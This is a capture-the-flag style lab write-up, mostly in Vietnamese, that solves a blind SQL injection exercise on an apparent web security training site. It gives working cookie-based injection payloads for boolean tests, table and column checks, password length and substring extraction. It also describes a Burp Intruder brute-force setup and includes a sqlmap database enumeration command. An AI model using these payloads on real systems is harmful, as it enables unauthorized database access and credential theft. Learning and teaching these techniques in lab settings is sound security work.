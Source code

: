 # Lab: Blind SQL injection with conditional responses

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.


# Overview

Ở lab này có lỗ hổng blind SQL. Ứng dụng này sử dụng tracking cookie để phân tích, và biểu diễn SQL query gồm các giá trị cookie được nhập vào.Kết quả của cuộc truy vấn không được trả lại, và không error messages được hiện lên. Nhưng ứng dụng thì bao gồm tin nhắn `Welcome back` ở trang web nếu query trả lại.

Ta cần đăng nhập vào administrator user

Form lab

![image](https://user-images.githubusercontent.com/115911041/232667041-aaff9df7-e91e-4d6b-8680-a669c9d984f5.png)

# Solution

**Confirm vulnerable parameter**

Bởi vì là blind SQL, ta không thể thấy bất kì kết quả của cuộc truy vấn. Tuy nhiên, bởi vì chúng ta có thể request có cho phép dành cho các câu trả lời `True` hoặc `False` 

Bước đầu tiên, ta cần xác định lỗ hổng bằng cách đưa requests cho ra câu trả lời `True` hoặc `False`

**Query**

Query được sử dụng trong lab này sẽ như thế này
```
SELECT trackingId FROM someTable WHERE trackinID = '<COOKIE_VALUE>'
```

![image](https://user-images.githubusercontent.com/115911041/232670060-97d3b04a-285a-4315-a488-aecb2cdd0a52.png)

`Cookie TrackingId=oLNIUOwSGHWlzJH1; session=7B6p6OLLq4GUkMRhCwcZQprHcyc8CRzH`

Ta thấy có xuất hiện `Welcome back` ở phần Response

**True**

```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and 1=1--'
```
![image](https://user-images.githubusercontent.com/115911041/232671266-492e4f61-95d9-433a-8a83-2950e05a114f.png)
Ta thấy có xuất hiện `Welcome back` ở phần Response

**False**
```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and 1=2--'
```
![image](https://user-images.githubusercontent.com/115911041/232671623-2118d0f1-95ab-4c58-b95d-9759a0b7d022.png)
Không thấy xuất hiện `Welcome back`

**Confirm expected table**

Đầu tiên, mình xác nhận table `users` có tồn tại hay không. Lần này, mình sử dụng string chữ từ table và so sánh nó.

``` 
SELECT trackingID FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and (select 'x' from users LIMIT 1)='x'--
```
![image](https://user-images.githubusercontent.com/115911041/232673130-8aab11dc-aa5c-4857-a2a0-db5988c96dd2.png)

Có kết quả `Welcome back`

**Verify columns exit as excepted**

```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and (select username from users where username='administrator')='administrator'--
```
![image](https://user-images.githubusercontent.com/115911041/232674592-c908658c-b912-47be-b4ed-bf710bd5b3f9.png)

Xuất hiện `Welcome back`

**Get the length of the password**

Tìm dộ dài của password.Ở đây, chúng ta sử dụng hàm `LENGTH` của database và so sánh nó với số.

![image](https://user-images.githubusercontent.com/115911041/232674862-29620f44-9689-478f-b8dc-2255dcf0e2cb.png)

Không cho ra `Welcome back`, password không có độ dài là 1

Thay vào đó, mình có thể kiểm tra lớn hơn thay vì bằng. Ở kết quả `Welcome back` nghĩa là password có độ dài lớn hơn 1.

Brute force độ dài với Burp Intruder (Sniper, Payload 1)

![image](https://user-images.githubusercontent.com/115911041/232675581-22e6d236-256a-4f15-8286-2d40ef956497.png)

![image](https://user-images.githubusercontent.com/115911041/232675635-5a1aa5b2-e598-4425-8184-caa3d4635c58.png)

Sau đó attack, kiểm tra payload nào xuất hiện `Welcome back` thì sẽ ra độ dài của password ở vị trí đó. Mình thì độ dài là 20.

**Enumerate password of the administrator**

Ta đã có độ dài của password, bây giờ đã có thể brute force từng kí tự. Nếu database có lưu trữ hàm hash của password, ta có thể extract hash để cracking offline.

```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and (select substring(password,1,1) from users where username='administrator')='a'--
```
![image](https://user-images.githubusercontent.com/115911041/232677055-c0e64e5e-498a-4551-80db-8c930243ed3e.png)

Ta nhận ra rằng kí tự đầu tiên không phải là `a`, nhưng sử dụng Burp Intruder có thể tự động dễ dàng.

Attack type: ***Cluster bomb***

![image](https://user-images.githubusercontent.com/115911041/232677551-c4da07a3-98e5-4fb6-989e-1137856b9439.png)

***Payload 1: numeric squential, 1..20***
***Payload 2: Brute force

![image](https://user-images.githubusercontent.com/115911041/232677811-97a163e8-2bfe-450e-867f-d64e8111da07.png)

Theo như số thứ tự của payload 1 sẽ cho ra password:
`iwdzus40xqlsq8zms6v0`

**Tiến hành đăng nhập**

![image](https://user-images.githubusercontent.com/115911041/232678012-ab200efa-8465-4749-b2cf-f941c9ecf68b.png)

# SQL map:

Ta vẫn làm giống cách Burp Suite. Dựa vào lỗ hổng ở phần category. Truy cập vào mục bất kì, sau đó list toàn bộ database bằng sqlmap

`python3 sqlmap.py -u "https://0a41004804f8311284e6eb0e00cd00b8.web-security-academy.net/filter?category=Corporate+gifts" --dbs`
